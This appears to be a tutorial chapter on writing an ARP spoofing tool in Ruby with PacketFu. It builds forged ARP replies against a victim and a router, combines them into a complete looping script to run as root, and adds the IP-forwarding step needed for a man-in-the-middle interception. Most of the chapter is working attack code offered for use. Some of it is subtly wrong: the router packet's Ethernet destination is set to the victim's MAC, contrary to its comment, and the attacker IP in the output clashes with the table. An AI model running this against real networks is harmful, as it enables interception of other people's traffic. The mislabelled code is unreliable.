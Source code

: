 # ARP Spoofing
As you know, ARP Spoofing attack in the core of MiTM attacks. In this part we'll know how to wirte simple and effective arp spoofer tool in order to use it in later spoofing attacks.

#### Scenario
We have 3 machines in this senario as showen below.
```
             |Attacker|
                 |
                 ٧
|Victim| -----------------> |Router| ---> Internet
```
Here the list of IP and MAC addresses of each of theme in the follwing table[^1]

| Host/Info |   IP Address  |    MAC Address    |
|-----------|:-------------:|:-----------------:|
| Attacker  | 192.168.0.100 | 3C:77:E6:68:66:E9 |
| Victim    | 192.168.0.21  | 00:0C:29:38:1D:61 |
| Router    | 192.168.0.1   | 00:50:7F:E6:96:20 |

To know our/attacker's interface information

```ruby
info = PacketFu::Utils.whoami?(:iface => "wlan0")
```
returns a hash
```
{:iface=>"wlan0",
 :pcapfile=>"/tmp/out.pcap",
 :eth_saddr=>"3c:77:e6:68:66:e9",
 :eth_src=>"<w\xE6hf\xE9",
 :ip_saddr=>"192.168.0.13",
 :ip_src=>3232235533,
 :ip_src_bin=>"\xC0\xA8\x00\r",
 :eth_dst=>"\x00P\x7F\xE6\x96 ",
 :eth_daddr=>"00:50:7f:e6:96:20"}
```
So you can extract these information like any hash `info[:iface]`, `info[:ip_saddr]`, `info[:eth_saddr]`, etc..


**Building victim's ARP packet**
```ruby
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # the router's IP
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply
```

**Building router packet**
```ruby
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # the router's MAC address
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply

```
Run ARP Spoofing attack

```ruby
# Send our packet through the wire
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end
```
Source[^2]

putting all together and run as `root`

```ruby
#
# ARP Spoof Basic script
#
require 'packetfu'


info = PacketFu::Utils.whoami?(:iface => "wlan0")

#
# Victim
#
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # the router's IP
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply

#
# Router
#
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # the router's MAC address
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply

#
# Send
#
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end
```

> Note: Don't forget to enable packet forwarding on your system to allow victim to browse internet.

> `echo "1" > /proc/sys/net/ipv4/ip_forward `

Returns, time to wiresharking ;)
```
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
.
.
.
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
```



<br><br><br>
---
[^1]: Creat table the easy way - [Table Generator](http://www.tablesgenerator.com/markdown_tables)

[^2]: Source: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
